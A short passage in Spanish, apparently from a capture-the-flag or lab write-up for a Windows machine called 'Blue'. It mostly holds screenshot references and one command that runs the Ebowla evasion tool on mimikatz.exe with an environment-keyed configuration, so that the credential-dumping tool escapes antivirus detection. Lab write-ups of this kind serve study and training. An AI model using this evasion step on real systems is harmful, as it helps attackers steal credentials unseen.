 Obteniendo el valor de las variables de entorno desde la máquina Windows:

![Untitled](/assets/img/Blue/Untitled32.png)

![Untitled](/assets/img/Blue/Untitled33.png)

Ejecutamos el ebowla

```bash
python2 ebowla.py mimikatz.exe genetic.config
```

![Untitled](/assets/img/Blue/Untitled34.png)
